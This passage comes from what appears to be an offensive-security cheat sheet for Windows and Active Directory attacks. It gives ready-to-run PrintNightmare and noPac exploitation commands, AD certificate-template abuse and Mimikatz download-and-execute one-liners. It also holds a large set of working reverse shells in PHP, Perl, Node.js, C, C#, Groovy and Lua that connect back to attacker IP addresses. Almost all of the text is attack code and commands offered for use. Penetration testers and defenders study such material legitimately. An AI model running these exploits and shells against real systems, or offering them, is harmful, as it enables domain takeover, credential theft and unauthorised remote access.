Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"

# SharpPrintNightMare
SharpPrintNightmare.exe C:\Windows\Tasks\execme.dll

# Python Impacket Implementation
## setup smbserver
smbserver.py smbshare `pwd` -smb2support
python3 CVE-2021-1675.py testlab/testuser:'P@$$w0rd!'@10.10.10.10 '\\10.10.10.10\smbshare\encme.dll' [-hashes :NTLM]
```

## noPac
This exploit will require a valid domain user regardless the level of privilege given as long as it can create a computer account on the domain. Here are the steps.

1. Create a fake computer with [Powermad.ps1](https://github.com/Kevin-Robertson/Powermad) script.
```
New-MachineAccount -MachineAccount "FakeComputer" -Password $password -Domain legitcorp.local -DomainController DC01.legitcorp.local -Verbose
```

2. Clear the fake computer's ServicePrincipalName (SPN) value
```
Set-DomainObject "CN=FakeComputer,CN=Computers,DC=legitcorp,DC=local" -Clear "serviceprincipalname" -Verbose -Domain legitcorp.local
```

3. Rename the fake computer samaccountname to domain controller name (FakeComputer$ -> DC01)
```
Set-MachineAccountAttribute -MachineAccount "FakeComputer" -Value "DC01" -Attribute samaccountname -Domain legitcorp.local -Verbose
```

4. Request a TGT of the domain controller
```
Rubeus.exe asktgt /user:DC01 /password:Password2 /domain:legitcorp.local /dc:DC01.legitcorp.local /nowrap
```

5. Rename the fake computer name to its original name (DC01 -> FakeComputer$)
```
Set-MachineAccountAttribute -MachineAccount "FakeComputer" -Value "FakeComputer" -Attribute samaccountname -Verbose -Domain legitcorp.local
```

6. Request TGS on behalf of the domain controller ticket we obtained previously.
```
Rubeus.exe s4u /impersonateuser:DC01$ /nowrap /dc:DC01.legitcorp.local /self /altservice:ldap/DC01.legitcorp.local /ptt /ticket:<base64-blob-ticket>
```

7. Perform cleanup (OPSEC Friendly)
```
Remove-MachineAccount -Domain legitcorp.local -MachineAccount FakeComputer
```

### Automated Exploit
There are a few automated scripts and tools out there to perform this exploit. This are some of the tools that i use previously on an engagement.
* Python (https://github.com/Ridter/noPac.git)
```
python3.exe .\noPac.py domain.local/lowpriv:Passw0rd -dc-ip 10.0.10.10 -dc-host DC01 --impersonate administrator -dump
```

* CSharp (https://github.com/cube0x0/noPac.git)
```
noPac.exe -domain domain.local -user low_priv -pass 'P@ssw0rd' /dc dc01.domain.local /mAccount FakeComputer /service [ldap,cifs,http] /ptt
```

Note: _Always perform cleanup if you are exploiting this against the corporate environment. You can use the following command to verify and remove a computer account_
```
# verify computer account with wmic
wmic /NAMESPACE:\\root\directory\ldap PATH ds_computer GET ds_samaccountname

# remove a computer account
net computer \\FakeComputer /delete
```


### Reference 
https://www.thehacker.recipes/ad/movement/kerberos/samaccountname-spoofing

## PKI Abuse
It is recommended to use below commands with `-k` option and .cacche file. Please refer [Request TGT](#request-tgt) section

### Enumerate CA(s) on the domain
```
python3 certi.py list '<domain>/<username>' -k -n --dc-ip <dc-ip> --class ca
```
### Enumerate for vulnerable templates
```
# Windows
Certify.exe find /clientauth

# Linux
python3 certi.py list '<domain>/<username>' -k -n --dc-ip <dc-ip> --vuln --enable
```
### Request cert from CA
```
# Windows
Certify.exe request /ca:dc.legitcorp.local\CA01 /template:vuln-template

# Linux
python3 certi.py req '<domain>/<username>@<ca-server>' <ca-service-name> -k -n --dc-ip <dc-ip> --template <vuln-template> --alt-name <target-domain-account>
```
### Retrieve TGT by using the certificate
```
# Windows
Rubeus.exe asktgt /user:lowpriv /certificate:cert.pfc /password:P@$$w0rd

# Linux
python3 gettgtpkinit.py <domain>/<username> -cert-pfx <pfx-certificate-file> -pfx-pass <certificate-password> admin_tgt.ccache   
```
### Retrieve NTLM hash (optional)
At this point, you can either use environment variable `KRB5CCNAME` to be used with ccache file or you can either get ntlm hash from the ticket with the following Commands
```
python3 getnthash.py -key <AS-REP-encryption-key> -dc-ip <dc-ip> <domain>/<username> output_tgt.ccache
```

For detailed example, you may refer to this awesome [gist](!https://gist.github.com/Flangvik/15c3007dcd57b742d4ee99502440b250) by [@Flangvik](!https://twitter.com/Flangvik)

## File Transfer

| **Command** | **Description** |
| --------------|-------------------|
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1` | Download a file with PowerShell |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`  | Execute a file in memory using PowerShell |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64` | Upload a file with PowerShell |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe` | Download a file using Bitsadmin |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe` | Download a file using Certutil |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` | Download a file using cURL |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | Download a file using PHP |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip` | Upload a file using SCP |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |

## Reverse Shells
_Credits: These reverse shells examples are reffered to [EzpzShell](https://github.com/H0j3n/EzpzShell) by [@h0j3n](https://twitter.com/h0j3n)_
### php reverse shell
You can get a full reverse shell script [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) by PentestMonkey
```
<?php system("curl http://192.168.86.139/shell.php|php"); ?>
```

### perl reverse shell
```
# Example 1
perl -e 'use Socket;$i="192.168.86.139";$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Example 2
use Socket

$i="192.168.86.139";
$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){
    open(STDIN,">&S");
    open(STDOUT,">&S");
    open(STDERR,">&S");
    exec("/bin/sh -i");
}
```

### nodejs reverse shell
```
# Example 1
require('child_process').exec('nc -e /bin/sh 192.168.86.139 9001')

# Example 2
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(9001, "192.168.86.139", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

### c reverse shell
```
######################### Example 1 #############################
## Compile : gcc -shared -o libchill.so -fPIC libchill.c

#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
int greetings(){
    setuid(0);
    setgid(0);
    system("/bin/bash");
}


######################### Example 2 #############################
## Compile : gcc shell.c -o shell

#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 9001;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("192.168.86.139");

    connect(sockt, (struct sockaddr *) &revsockaddr,
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);

    return 0;       
}
```

### c# reverse shell
This c-sharp reverse shell is from [PuckieStyle Blog](https://www.puckiestyle.nl/c-simple-reverse-shell/)._Note: Change `cmd.exe` to `bash` if you are using against linux environment_
```
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace ConnectBack
{
	public class Program
	{
		static StreamWriter streamWriter;

		public static void Main(string[] args)
		{
			using(TcpClient client = new TcpClient("10.0.2.15", 443))
			{
				using(Stream stream = client.GetStream())
				{
					using(StreamReader rdr = new StreamReader(stream))
					{
						streamWriter = new StreamWriter(stream);

						StringBuilder strInput = new StringBuilder();

						Process p = new Process();
						p.StartInfo.FileName = "cmd.exe";
						p.StartInfo.CreateNoWindow = true;
						p.StartInfo.UseShellExecute = false;
						p.StartInfo.RedirectStandardOutput = true;
						p.StartInfo.RedirectStandardInput = true;
						p.StartInfo.RedirectStandardError = true;
						p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
						p.Start();
						p.BeginOutputReadLine();

						while(true)
						{
							strInput.Append(rdr.ReadLine());
							//strInput.Append("\n");
							p.StandardInput.WriteLine(strInput);
							strInput.Remove(0, strInput.Length);
						}
					}
				}
			}
		}

		private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }

	}
}
```

### jenkins reverse shell
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.86.139/9001;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### lua reverse shell
```
# Example 1
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.86.139 9001 >/tmp/f")

# Example 2
lua -e 'os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.86.139 9001 >/tmp/f")'
```

### jsp reverse shell
```
# Msfvenom => msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.86.139 LPORT=9001 -f raw > shell.jsp
```

# References
* https://www.harmj0y.net/
* https://www.labofapenetrationtester.com/
* https://ired.team
* https://github.com/GhostPack/Rubeus
* https://github.com/gentilkiwi/mimikatz/wiki
